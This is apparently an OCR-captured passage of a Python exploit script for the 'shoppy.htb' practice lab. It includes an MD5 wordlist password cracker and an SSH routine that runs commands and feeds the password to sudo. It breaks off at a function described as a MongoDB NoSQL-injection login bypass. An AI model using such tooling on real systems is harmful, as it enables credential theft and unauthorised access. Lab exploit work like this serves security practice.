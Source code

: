 ```python

# ctrl + c
def signal_handler(signum, frame): sys.exit('\n[!] User terminated.')

signal.signal(signal.SIGINT, signal_handler)

# make get/post request
def make_request(session, method, target_url, headers=None, cookies=None, json_data=None):
	response = ''
	try:
		if method == 'get':
			response = session.get(target_url, headers=headers, cookies=cookies)
		elif method == 'post':
			response = session.post(target_url, headers=headers, json=json_data)
	except Exception as error:
		print('[x] Error: %s' % error)
	return response

# read wordlist file
def get_wordlist():
	with open(wordlist_filename, 'r', errors='replace') as file: # errors='replace' (UnicodeDecodeError)
		wordlist = file.readlines()
	return wordlist

# convert password to hash (md5)
def to_hash(password):
	password_hash = hashlib.md5(password.encode())
	return password_hash.hexdigest()

# crack password hash
def cracking_password(password_hash, wordlist=get_wordlist()):
	for word in wordlist:
		word = word.strip('\n')
		if to_hash(word) == password_hash:
			return word

# connect via ssh and run commands
def ssh_exec_commands_like(ssh_username, ssh_password, commands):
	_stdout_commands = []
	try:
		client = paramiko.SSHClient()
		client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
		client.connect(target_host, port=22, username=ssh_username, password=ssh_password)

		for command in commands:
			_stdout = ''
			if 'sudo' in command:
				_stdin, _stdout, _stderr = client.exec_command(command, get_pty=True)
				_stdin.write(ssh_password + '\n')
				_stdin.flush()
			else:
				_stdin, _stdout, _stderr = client.exec_command(command, get_pty=True)
			_stdout_commands.append(_stdout.read().decode())
		
		client.close()
	except Exception as error:
		print('[x] Error: %s' % error)
	
	return _stdout_commands

# bypass login to shoppy.htb (Mongo NoSQLi) and return Josh password hash
def get_josh_password_hash():
```